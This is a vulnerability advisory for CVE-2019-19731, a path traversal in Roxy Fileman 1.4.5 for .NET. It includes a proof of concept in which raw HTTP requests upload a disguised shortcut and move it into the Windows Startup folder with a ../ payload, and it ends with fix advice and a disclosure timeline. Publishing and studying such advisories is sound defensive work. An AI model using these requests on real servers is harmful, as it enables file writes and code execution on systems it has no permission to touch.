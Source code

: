 # CVE-2019-19731: Directory traversal in Roxy Fileman for .NET 1.4.5

Roxy Fileman 1.4.5 for .NET is vulnerable to path traversal which can lead to file write in arbitrary locations depending on 
the IIS worker process privileges [1]. This PoC demonstrates a crafted Windows shortcut file being uploaded and written to the Startup folder. The execution
of this file will be triggered on the next login.

## Proof of concept

It's possible to write an uploaded file to arbitrary locations using the `RENAMEFILE` action.
The `RenameFile` function in `main.ashx` does not check if the new file name parameter `name` is a valid location.
Moreover, the default conf.json has an incomplete blacklist for file extensions which in this case
allows Windows shortcut files to be uploaded, alternatively existing files can be renamed to include 
the `.lnk` extension.

1. Creating a shortcut file

By using for example the target executable `C:\Windows\System32\Calc.exe` and
removing the `.lnk` extension and renaming it to use the `.dat` extension.

2. Uploading the file

Either upload the `.dat` file manually via the Roxy Fileman web interface
or programmatically using a HTTP POST request. 

Details of the request:

```
POST /wwwroot/fileman/asp_net/main.ashx?a=UPLOAD HTTP/1.1
Host: 127.0.0.1:50357
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------159382831523528
Content-Length: 924
Origin: http://127.0.0.1:50357
Connection: close
Referer: http://127.0.0.1:50357/wwwroot/fileman/
Cookie: roxyld=%2Fwwwroot%2Ffileman%2FUploads%2Ftest2; roxyview=list

-----------------------------159382831523528
Content-Disposition: form-data; name="action"

upload
-----------------------------159382831523528
Content-Disposition: form-data; name="method"

ajax
-----------------------------159382831523528
Content-Disposition: form-data; name="d"

/wwwroot/fileman/Uploads/test2
-----------------------------159382831523528
Content-Disposition: form-data; name="files[]"; filename="poc.dat"
Content-Type: application/octet-stream

...data omitted...
-----------------------------159382831523528--
```

3. Write the file to the Startup folder using the `RENAMEFILE` action

The new filename is set via the `n` parameter. The correct path can be identified by trial and error depending 
on the location of `wwwroot` on the filesystem and the privileges for the IIS worker process (`w3wp.exe`).

If the necessary directories do not exist, they can be created using the `CREATEDIR` action which is also
vulnerable to path traversal.

```
POST /wwwroot/fileman/asp_net/main.ashx?a=RENAMEFILE&f=%2Fwwwroot%2Ffileman%2FUploads%2FDocuments%2Fpoc.dat&n=../../../../../../../../AppData/Roaming/Microsoft/Windows/Start%20Menu/Programs/Startup/poc.txt.lnk HTTP/1.1
Host: 127.0.0.1:50357
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 66
Origin: http://127.0.0.1:50357
Connection: close
Referer: http://127.0.0.1:50357/wwwroot/fileman/
Cookie: roxyld=%2Fwwwroot%2Ffileman%2FUploads%2Ftest2; roxyview=list

f=%2Fwwwroot%2Ffileman%2FUploads%2Ftest2%2Fpoc.dat&n=poc.dat
```

## Workaround / Fix
Patch the `main.ashx` code in order to perform checks for all paths that they are valid for the following actions: 
`CREATEDIR`, `COPYFILE` and `RENAMEFILE`.

Recommendations for users of Roxy Fileman:
  - Add `lnk` file extension to the `conf.json` under `FORBIDDEN_UPLOADS`, and `aspx` since it is not included in the blacklist by default.


## Timeline
- 2019-12-06: Discovered the vulnerability
- 2019-12-06: Reported to the vendor (vendor is unresponsive)
- 2019-12-11: Request CVE
- 2019-12-13: Advisory published

## References
[1] CVE-2019-19731 - https://nvd.nist.gov/vuln/detail/CVE-2019-19731
